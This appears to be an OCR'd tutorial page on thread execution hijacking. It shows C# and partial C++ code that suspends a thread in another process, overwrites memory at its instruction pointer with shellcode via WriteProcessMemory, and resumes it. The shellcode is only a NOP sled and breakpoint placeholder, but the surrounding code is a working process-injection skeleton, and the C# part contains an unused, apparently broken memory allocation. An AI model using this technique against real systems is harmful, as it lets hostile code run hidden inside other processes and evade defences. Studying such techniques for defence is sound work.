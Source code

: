 ```csharp

        // Suspend the thread
        SuspendThread(hThread);

        // Get the thread context
        CONTEXT context = new CONTEXT();
        context.ContextFlags = 0x10007; // CONTEXT_FULL
        GetThreadContext(hThread, ref context);

        // Print the current EIP (instruction pointer)
        Console.WriteLine("Current EIP: 0x" + context.Eip.ToString("X8"));

        // Modify the EIP to point to the new shellcode
        byte[] shellcode = new byte[] {
            0x90, 0x90, 0x90, 0x90, // NOP sled
            0xCC                    // Int3 breakpoint (for demonstration purposes)
        };

        IntPtr remoteShellcode = Marshal.AllocHGlobal(shellcode.Length);
        Marshal.Copy(shellcode, 0, remoteShellcode, shellcode.Length);

        IntPtr bytesWritten;
        WriteProcessMemory(hProcess, new IntPtr(context.Eip), shellcode, (uint)shellcode.Length, out bytesWritten);

        // Set the modified context back to the thread
        SetThreadContext(hThread, ref context);

        // Resume the thread
        ResumeThread(hThread);

        Console.WriteLine("Thread hijacked and resumed.");
    }
}
```

### **Thread Execution Hijacking in C++**

The C++ example provides more direct access to Windows APIs and is generally preferred for such low-level operations:

```cpp
#include <windows.h>
#include <iostream>

// Shellcode to be executed
unsigned char shellcode[] = {
    0x90, 0x90, 0x90, 0x90, // NOP sled
    0xCC                    // Int3 breakpoint (for demonstration purposes)
};

int main()
{
    // Replace these with the target process ID and thread ID
    DWORD targetProcessId = 1234;
    DWORD targetThreadId = 5678;

    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, FALSE, targetProcessId);
    if (hProcess == NULL) {
        std::cerr << "Failed to open target process." << std::endl;
        return 1;
    }
```